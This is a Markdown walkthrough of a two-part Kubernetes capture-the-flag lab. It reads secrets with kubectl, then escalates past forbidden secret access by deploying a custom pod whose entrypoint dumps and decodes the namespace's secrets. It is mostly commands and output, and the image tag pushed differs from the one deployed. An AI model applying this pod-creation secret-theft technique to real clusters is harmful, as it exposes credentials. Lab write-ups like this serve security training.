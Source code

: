 # First K8S CTF - Walktrough

## Easy challenge
list namespaces:  
```bash
kubectl get ns

NAME              STATUS   AGE
default           Active   7m40s
easy              Active   7m35s
kube-node-lease   Active   7m41s
kube-public       Active   7m41s
kube-system       Active   7m42s
medium            Active   7m35s
```  

You can see two interesting namespaces: `easy` and `medium`.  
We will start from the easy one.  

List the secrets in the *easy* namespace:  
```bash
kubectl -n easy get secrets

NAME                 TYPE     DATA   AGE
definitelynotaflag   Opaque   1      10m
flag                 Opaque   1      10m
```  

Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

this is not the flag!
```  

We are not lucky, let's try with the other secret:  
```bash
kubectl get secret definitelynotaflag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

CTF{easy-flag-XWgkxvenoWWwj1AY}
```  
Congrats! you solved the easy challenge!  
Too easy you say?  
Don't worry, things are gonna get harder from here 😈  

## Medium challenge

List the secrets in the *medium* namespace:  
```bash
kubectl -n medium get secrets

NAME   TYPE     DATA   AGE
db     Opaque   1      17m
flag   Opaque   1      17m
```  
Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n medium -o=jsonpath='{.data.flag}' | base64 --decode

Error from server (Forbidden): secrets "flag" is forbidden: User "ctf1" cannot get resource "secrets" in API group "" in the namespace "medium"
```  

It seems that we are not allowed to retrieve secrets in this namespace...let's confirm this:  
```bash
kubectl auth can-i get secrets --namespace=medium

no
```  
What a shame!  
Let's try to get all the resources we can in the *medium* namespace:  
```bash
kubectl -n medium get all

NAME                                 READY   STATUS             RESTARTS        AGE
busybox-deployment-6986fcbcb-5fp6n   0/1     CrashLoopBackOff   9 (2m15s ago)   23m
busybox-deployment-6986fcbcb-8rtx5   0/1     CrashLoopBackOff   9 (2m21s ago)   23m
nginx-deployment-6b7f675859-d4nlh    1/1     Running            0               23m
nginx-deployment-6b7f675859-gpqk2    1/1     Running            0               23m
Error from server (Forbidden): replicationcontrollers is forbidden: User "ctf1" cannot list resource "replicationcontrollers" in API group "" in the namespace "medium"
Error from server (Forbidden): services is forbidden: User "ctf1" cannot list resource "services" in API group "" in the namespace "medium"
Error from server (Forbidden): daemonsets.apps is forbidden: User "ctf1" cannot list resource "daemonsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): deployments.apps is forbidden: User "ctf1" cannot list resource "deployments" in API group "apps" in the namespace "medium"
Error from server (Forbidden): replicasets.apps is forbidden: User "ctf1" cannot list resource "replicasets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): statefulsets.apps is forbidden: User "ctf1" cannot list resource "statefulsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): horizontalpodautoscalers.autoscaling is forbidden: User "ctf1" cannot list resource "horizontalpodautoscalers" in API group "autoscaling" in the namespace "medium"
Error from server (Forbidden): cronjobs.batch is forbidden: User "ctf1" cannot list resource "cronjobs" in API group "batch" in the namespace "medium"
Error from server (Forbidden): jobs.batch is forbidden: User "ctf1" cannot list resource "jobs" in API group "batch" in the namespace "medium"
```  
It seems that we are able to retrieve the list of pods in this namespace.  

`hint`: try to play around with **kubectl auth can-i** in order to understand what you can do in this namespace.  

After a while, you will discover that you are able to create pods in the *medium* namespace:  
```bash
kubectl auth can-i create pods --namespace=medium

yes
```  

At this point you can attempt to read the secrets from a pod deployed to the *medium* namespace.  
Proceed as follow:  
1. Create the following dockerfile  

```dockerfile
FROM alpine:latest
RUN apk --no-cache add curl
RUN curl -LO https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl && \
    chmod +x ./kubectl && \
    mv ./kubectl /usr/local/bin/kubectl

# Set the entrypoint script
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```  
2. Create the following `entrypoint.sh` file  
```bash
#!/bin/sh

# Read and decode the 'flag' secret
flag_secret=$(kubectl get secret flag -n medium -o=jsonpath='{.data.flag}')
decoded_flag=$(echo "$flag_secret" | base64 -d)

# Read and decode the 'db' secret
db_secret=$(kubectl get secret db -n medium -o=jsonpath='{.data.flag}')
decoded_db=$(echo "$db_secret" | base64 -d)

# Output the decoded secrets
echo "Flag Secret: $decoded_flag"
echo "DB Secret: $decoded_db"
```  

3. Build and push the docker image (you a free and disposable public registry like [*ttl.sh*](https://ttl.sh/))
```bash
docker build -t ttl.sh/ctf1:latest . && docker push ttl.sh/ctf1:latest
```  
4. Deploy a pod with that image:  
```bash
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: ctf1-pod
  namespace: medium
spec:
  containers:
  - name: k8sctf1-container
    image: ttl.sh/ctf1:damn
EOF
```  
5. retrieve the list of running podss
```bash
Kubectl -n medium get pods

NAME                                READY   STATUS             RESTARTS        AGE
ctf1-pod                            0/1     Completed          0               1m12s
nginx-deployment-6b7f675859-4pkpk   1/1     Running            0               11m
nginx-deployment-6b7f675859-kvb9c   1/1     Running            0               11m
```  
6. retrieve the logs for that pod
```bash
kubectl -n medium logs ctf1-pod

Flag Secret: this is not the flag!
DB Secret: CTF{medium-flag-zPBBTUPD2mXuZZU3}
```  

Congrats, you pawned the second challenge!  🥳 🎉




